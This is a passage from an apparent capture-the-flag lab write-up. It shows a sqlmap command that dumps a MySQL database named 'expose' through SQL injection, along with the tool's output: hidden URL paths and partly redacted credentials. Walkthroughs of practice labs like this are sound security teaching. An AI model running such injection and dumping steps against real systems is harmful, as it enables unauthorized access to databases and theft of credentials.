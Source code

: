 ```terminal
[*] expose                                                                                                                                                                                    
[*] information_schema                                                                         
[*] mysql                                                                                      
[*] performance_schema                                                                                                                                                                        
[*] phpmyadmin                                                                                                                                                                                
[*] sys     
```

The database that looks interesting is expose so let's dump it.

```terminal
$ sqlmap -r file.req --batch -D expose --dump                                           
        ___                                                                                    
       __H__                       
 ___ ___[']_____ ___ ___  {1.8.3#stable} 
|_ -| . [.]     | .'| . |                                                                      
|___|_  [,]_|_|_|__,|  _|                
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws.
 Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 19:07:39 /2024-11-19/

[19:07:39] [INFO] parsing HTTP request from 'file.req'
[19:07:39] [INFO] resuming back-end DBMS 'mysql' 
[19:07:39] [INFO] testing connection to the target URL


Database: expose                                                                                                                                                                              
Table: config                                                                                  
[2 entries]
+----+------------------------------+-----------------------------------------------------+
| id | url                          | password                                            |
+----+------------------------------+-----------------------------------------------------+
| 1  | /file1010111/index.php       | 69c66901[REDACTED]5b8929 (REDACTED)       |
| 3  | /upload-cv00101011/index.php | // ONLY ACCESSIBLE THROUGH USERNAME STARTING WITH Z |
+----+------------------------------+-----------------------------------------------------+


Database: expose
Table: user
[1 entry]
+----+-----------------+---------------------+--------------------------------------+
| id | email           | created             | password                             |
+----+-----------------+---------------------+--------------------------------------+
| 1  | hacker@root.thm | 2023-02-21 09:05:46 | Very[REDACTED]1231 |
+----+-----------------+---------------------+--------------------------------------+
```
